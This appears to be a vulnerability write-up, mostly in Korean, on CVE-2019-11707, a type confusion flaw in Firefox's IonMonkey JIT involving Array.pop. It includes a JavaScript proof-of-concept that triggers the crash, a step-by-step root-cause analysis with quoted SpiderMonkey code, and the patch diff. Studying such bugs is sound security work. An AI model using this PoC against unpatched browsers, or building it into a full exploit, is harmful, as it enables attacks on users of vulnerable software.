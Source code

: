 # CVE-2019-11707

A type confusion vulnerability can occur when manipulating JavaScript objects due to issues in Array.pop. This can allow for an exploitable crash. We are aware of targeted attacks in the wild abusing this flaw.


## Proof-of-Concept

```JS

// Run with --no-threads for increased reliability
const v4 = [{a: 0}, {a: 1}, {a: 2}, {a: 3}, {a: 4}];
function v7(v8,v9) {
    if (v4.length == 0) {
        v4[3] = {a: 5};
    }

    // pop the last value. IonMonkey will, based on inferred types, conclude that the result
    // will always be an object, which is untrue when  p[0] is fetched here.
    const v11 = v4.pop();

    // Then if will crash here when dereferencing a controlled double value as pointer.
    v11.a;

    // Force JIT compilation.
    for (let v15 = 0; v15 < 10000; v15++) {}
}

var p = {};
p.__proto__ = [{a: 0}, {a: 1}, {a: 2}];
p[0] = -1.8629373288622089e-06;
v4.__proto__ = p;

for (let v31 = 0; v31 < 1000; v31++) {
    v7();
}

```



## Root Cause Analysis

취약점 설명에 앞서, inline caching이란, 속도를 향상시키기 위해 기존에 찾았던 값을 look-up 테이블에 저장해놓고, 다시 접근할때 빠르게 해당 값을 반환하도록 하는 기법을 말한다. 예를 들어, `Array.pop()`이 호출된 경우, 다음과 같은 과정을 거친다.

- `Array` object의 prototype을 얻는다
- prototype 안에서 `pop` 함수 property를 탐색
- `pop` 함수의 주소를 얻는다.
- `pop` 함수를 inlining하기 위해 해당 주소를 look-up 테이블에 저장한다. 이후 `Array.pop()`이 호출될 때 주소값을 찾는 과정을 절약할 수 있다.



본 취약점은 Firefox의 JIT 엔진, IonMonkey의 `Array.prototype.pop`, `Array.prototype.push`, `Array.prototype.slice`에 대한 inline caching 과정에서 현재 prototype에 indexed element가 존재 여부를 검사하지 않기 때문에 발생한다.

PoC 코드를 살펴보면, 취약점은 다음 단계를 거쳐 실행된다.



1. `v4` 배열이 `JSObjects` 형태의 구성요소를 사용하여 초기화된다. 이와 관련하여 SpiderMonkey의 타입 추론 시스템은 `v4`가 `JSObjects`만을 그 element로 가진다고 생각한다.

```JS
    const v4 = [{a: 0}, {a: 1}, {a: 2}, {a: 3}, {a: 4}];
```


2. `p` 배열 또한 `JSObjects` 형태의 구성요소를 사용하여 초기화된다.

```JS
    var p = {};
    p.__proto__ = [{a: 0}, {a: 1}, {a: 2}];
```


3. `p[0]`을 float 값으로 초기화한다. 여기부터 `p`의 Array type이 변화된다 (index element의 추가).

```JS
    p[0] = -1.8629373288622089e-06;
```

4. `v4`의 prototype을 `p`로 변경한다. 따라서 `v4`의 prototype은 indexed element를 새로 가지게 되었다(type이 변경되었다). 하지만, Spidermonkey는 이를 따로 추적하지 않는다.

```JS
    v4.__proto__ = p;
```

5. `v7()` 함수를 실행함으로서 `v4`의 모든 element가 pop된다. 이 과정에서 `v4[3] = {a: 5};` 구문은 `v4`의 inferred-type을 변경하지 않으면서 `v4` 배열의 길이를 늘리는 역할을 수행한다.

```JS
    for (let v31 = 0; v31 < 1000; v31++) {
        v7();
    }
```

```JS
    if (v4.length == 0) {
        v4[3] = {a: 5};
    }
```

6. `v7`이 반복실행되면서 IonMonkey에 의해 해당 함수가 compile을 시작한다. `v4.pop()` 구문은 IonMonkey의 `IonBuilder::inlineArrayPopShift` 함수를 통해 `MArrayPopShift` instruction으로 컴파일된다.

7. IonMonkey는 `v4`에 `JSObject`만 존재한다고 인식하고 있기 때문에, `v4`에 대한 inferred type check를 생략한다.


```C++
  bool needsHoleCheck =
      thisTypes->hasObjectFlags(constraints(), OBJECT_FLAG_NON_PACKED);
  bool maybeUndefined = returnTypes->hasType(TypeSet::UndefinedType());

  BarrierKind barrier = PropertyReadNeedsTypeBarrier(
      analysisContext, alloc(), constraints(), obj, nullptr, returnTypes); // emits no type-check
  if (barrier != BarrierKind::NoBarrier) {
    returnType = MIRType::Value;
  }
```

8. 이후 IonMonkey는 `v4.pop`에 대해 `ArrayPopDense` 함수를 (type check 없이) 호출하는 machine code를 생성한다.

```C++
bool ArrayPopDense(JSContext* cx, HandleObject obj, MutableHandleValue rval) {
  MOZ_ASSERT(obj->is<ArrayObject>());

  AutoDetectInvalidation adi(cx, rval);

  JS::AutoValueArray<2> argv(cx);
  argv[0].setUndefined();
  argv[1].setObject(*obj);
  if (!js::array_pop(cx, 0, argv.begin())) {
    return false;
  }

  // If the result is |undefined|, the array was probably empty and we
  // have to monitor the return value.
  rval.set(argv[0]);
  if (rval.isUndefined()) {
    TypeScript::Monitor(cx, rval);
  }
  return true;
}
```

해당 함수는 `js::array_pop`를 호출하여 `p[0]` 값을 얻게 된다. 즉, double 타입의 값이 얻어진다.
즉, 이는 IonMonkey가 JIT을 수행할 때, `Array.prototype.pop`이 prototype에서도 element를 얻어올 수 있다는 것을 고려하지 않아 발생한 문제이다.


9. 하지만, JITed code는 해당 값을 `JSObject`라고 인식하고 있으므로 type confusion이 발생한다.








## Patch

다음과 같이 Array prototype에 대한 type check만을 수행하는 것이 아니라, 주어진 array 자체의 property를 모두 검사하는 것으로 변화하였다.

```diff
--- a/js/src/jit/MCallOptimize.cpp
+++ b/js/src/jit/MCallOptimize.cpp
@@ -1041,26 +1042,20 @@ IonBuilder::InliningResult IonBuilder::i
   TemporaryTypeSet* thisTypes = obj->resultTypeSet();
   if (!thisTypes) {
     return InliningStatus_NotInlined;
   }
   const Class* clasp = thisTypes->getKnownClass(constraints());
   if (clasp != &ArrayObject::class_) {
     return InliningStatus_NotInlined;
   }
-  if (thisTypes->hasObjectFlags(
-          constraints(),
-          OBJECT_FLAG_SPARSE_INDEXES | OBJECT_FLAG_LENGTH_OVERFLOW)) {
-    trackOptimizationOutcome(TrackedOutcome::ArrayBadFlags);
-    return InliningStatus_NotInlined;
-  }
 
   bool hasIndexedProperty;
   MOZ_TRY_VAR(hasIndexedProperty,
-              ArrayPrototypeHasIndexedProperty(this, script()));
+              ElementAccessHasExtraIndexedProperty(this, obj));
   if (hasIndexedProperty) {
     trackOptimizationOutcome(TrackedOutcome::ProtoIndexedProps);
     return InliningStatus_NotInlined;
   }
 
   TemporaryTypeSet::DoubleConversion conversion =
       thisTypes->convertDoubleElements(constraints());
   if (conversion == TemporaryTypeSet::AmbiguousDoubleConversion) {
```
